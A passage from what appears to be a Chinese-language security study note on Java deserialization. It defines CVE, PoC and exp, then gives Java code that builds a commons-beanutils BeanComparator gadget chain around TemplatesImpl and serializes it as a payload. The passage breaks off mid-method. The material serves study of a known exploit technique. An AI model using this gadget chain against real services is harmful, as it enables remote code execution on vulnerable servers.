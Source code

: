 mvn中央仓库专门有一列`Vulnerabilities`来标示存在`vulnerability`(弱点、漏洞)的库版本。
(类似于sqlmap中提示某字段是vulnerable的)


> CVE(Common Vulnerabilities & Exposures): 漏洞编号，大家约定的、这个漏洞的名字；
> PoC(Proof of concept): （概念验证）漏洞证明
> vul(Vulnerability): 泛指漏洞
> exp: 漏洞利用，一般是个demo程序

根据参考资料，我们可以用`BeanComparator`来构造一个反序列化的攻击。
创建一个优先队列，把`Comparator`设置成`BeanComparator`，然后塞进2个元素，再强行通过反射换掉元素。


```java
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

import org.apache.commons.beanutils.BeanComparator;
import org.springframework.util.comparator.BooleanComparator;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;

public class Test {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void printPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, BooleanComparator.TRUE_HIGH);
        final PriorityQueue<Object> queue = new PriorityQueue<>(2, comparator);
        // stub data for replacement later
        queue.add(false);
        queue.add(true);

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[] {obj, obj});

        // ==================
        // 生成序列化字符串
        write(queue);
    }

    public static void write(Object obj) throws Exception {
        // System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "true");
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(baos);
        objectOutputStream.writeObject(obj);
        objectOutputStream.flush();
        objectOutputStream.close();
        System.out.println("base64:");
```
